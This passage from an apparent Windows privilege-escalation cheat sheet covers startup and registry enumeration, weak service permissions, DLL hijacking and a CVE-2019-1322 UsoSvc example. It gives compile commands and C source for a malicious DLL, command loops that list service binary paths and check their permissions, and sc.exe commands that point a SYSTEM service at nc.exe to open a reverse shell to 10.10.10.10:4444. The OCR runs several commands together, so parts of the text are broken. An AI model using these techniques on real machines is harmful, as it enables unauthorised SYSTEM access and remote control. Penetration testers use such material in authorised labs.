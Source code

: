     wmic startup get caption,commandreg query HKLM\Software\Microsoft\Windows\CurrentVersion\Rreg query HKCU\Software\Microsoft\Windows\CurrentVersion\Runreg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOncedir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"

## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations: - Orphaned installs, not installed anymore but still exist in startup - DLL Hijacking ```powershell # find missing DLL - Find-PathDLLHijack PowerUp.ps1 - Process Monitor : check for “Name Not Found”

    # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    
    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

- PATH directories with weak permissions

    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txtFOR /F %i in (Servicenames.txt) DO echo %itype Servicenames.txtFOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txtFOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls` > icacls (Windows Vista +)
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or `BUILTIN\Users:(W)`(Write-only access) in the output.

### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

    PS C:\Windows\system32> sc.exe stop UsoSvcPS C:\Windows\system32> sc.exe config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\a.txt"PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"PS C:\Windows\system32> sc.exe qc usosvc[SC] QueryServiceConfig SUCCESSSERVICE_NAME: usosvcTYPE               : 20  WIN32_SHARE_PROCESSSTART_TYPE         : 2   AUTO_START  (DELAYED)ERROR_CONTROL      : 1   NORMALBINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exeLOAD_ORDER_GROUP   :TAG                : 0DISPLAY_NAME       : Update Orchestrator ServiceDEPENDENCIES       : rpcssSERVICE_START_NAME : LocalSystemPS C:\Windows\system32> sc.exe start UsoSvc
